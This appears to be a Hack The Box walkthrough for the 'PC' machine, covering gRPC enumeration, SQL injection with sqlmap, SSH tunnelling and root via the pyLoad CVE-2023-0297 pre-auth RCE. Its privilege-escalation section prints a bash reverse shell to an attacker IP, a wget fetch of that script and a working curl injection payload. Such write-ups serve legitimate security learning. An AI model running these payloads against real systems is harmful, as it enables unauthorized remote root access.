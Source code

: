 ```yaml
---
title: PC Walkthrough - Hackthebox
author: D_C4ptain
date: 2023-06-14 09:36:00 +0300
categories: [hackthebox, walkthrough]
tags: [hackthebox, pc, walkthrough, writeup, privilege escalation, sqlmap, burpsuite, nmap, gRPC, ssh, pyload, CVE-2023-0297, netcat, RCE, cve, d_captain, D_C4ptain]
math: true
mermaid: true
image:
  path: /assets/img/posts/htb/pc/pc1.png
---
```


### Scanning and Enumeration

Let’s do some port scanning.

```bash
nmap -p- 10.10.11.214 --min-rate 1500 -vv -Pn
```

![pc2.png](/assets/img/posts/htb/pc/pc2.png)

We identify a port for ssh and another unknown port.

```bash
sudo nmap -sSVC -p50051,22 10.10.11.214 -vv -Pn
```

![pc3.png](/assets/img/posts/htb/pc/pc3.png)

Checking the ssh service further revealed nothing interesting. 
Looking at the site 10.10.11.214:50051 I found nothing but a bunch of weird characters.

![pc3b.png](/assets/img/posts/htb/pc/pc3b.png)

Decided to google out on port 50051. [link here](https://www.h3c.com/en/d_202212/1731698_294551_0.htm) I found it to be serving a gRPC channel by default.

![pc4.png](/assets/img/posts/htb/pc/pc4.png)

Did some research and found a WEB UI for interacting with gRPC [here.](https://github.com/fullstorydev/grpcui)

I installed it and accessed the gRPC server:

```bash
go/bin/grpcui -plaintext 10.10.11.214:50051
```

I poked several methods on the UI and realized I needed account credentials with some ID and a token to “getinfo”. I tried to log in with an ‘admin’ account and got a token and an ID.

![pc5.png](/assets/img/posts/htb/pc/pc5.png)

Let’s get that ‘info’

![pc6.png](/assets/img/posts/htb/pc/pc6.png)

Nothing useful here!

![pc7.png](/assets/img/posts/htb/pc/pc7.png)

Decided to check the request with burpsuite. Playing around with repeater I attempted IDOR related stuff till I decided to ‘inject’

![pc8.png](/assets/img/posts/htb/pc/pc8.png)

I saved the request for SQLMap.

```bash
sqlmap -r Downloads/grpc.req --batch -a --dump-all
```

Got some creds!

![pc9.png](/assets/img/posts/htb/pc/pc9.png)

### Initial Foothold

Let’s SSH to the machine using the credentials obtained.

![pc10.png](/assets/img/posts/htb/pc/pc10.png)

And we have our flag! kill that rat!

### Privilege Escalation

I checked for vectors like “sudo -l” and binaries with SUID bits but got nothing. Used linpeas and got nothing still.

I decided to check socket statistics with:

```bash
ss -tnl
```

I noticed port 8000 listening on localhost.

![pc11.png](/assets/img/posts/htb/pc/pc11.png)

Let us do SSH tunnelling on it. Read about [SSH tunnelling(SSH portforwarding) here](https://linuxize.com/post/how-to-setup-ssh-tunneling/).

```bash
ssh -L 1337:127.0.0.1:8000 sau@10.10.11.214
```

![pc12.png](/assets/img/posts/htb/pc/pc12.png)

The port 8000 is now accessible to us through port 1337. Let us access in http.

```bash
http://127.0.0.1:1337/
```

![pc13.png](/assets/img/posts/htb/pc/pc13.png)

Found a login page with what looked like a python module. I checked the page source and tried some credentials but that didn’t work.

Checked for any processes linked to pyload:

```bash
ps aux | grep -i pyload
```

![pc15.png](/assets/img/posts/htb/pc/pc15.png)

Found it running as root!

I did some research and found that pyload is susceptible to a pre-authenticated RCE vulnerability **CVE-2023-0297.** [Link here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

![pc14.png](/assets/img/posts/htb/pc/pc14.png)

I created a bash reverse shell file and uploaded to target machine with python and wget.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.37/1338 0>&1
```

> On my kali
> 

```bash
python -m http.server 9090 -d Desktop
```

![pc16.png](/assets/img/posts/htb/pc/pc16.png)

> On target:
> 

```bash
wget http://10.10.16.20:9090/rev.sh

chmod +x rev.sh
```

![pc17.png](/assets/img/posts/htb/pc/pc17.png)

Let’s set up a netcat listener and craft our exploit(edit where necessary).

![pc18.png](/assets/img/posts/htb/pc/pc18.png)

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"bash%20/home/USER/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

Let’s go ahead and execute the exploit on target machine.

![pc19.png](/assets/img/posts/htb/pc/pc19.png)

And we get a privileged shell!

![pc20.png](/assets/img/posts/htb/pc/pc20.png)

Go ahead and kill that flag!

Well, There are many ways of killing a rat!

Happy Hacking.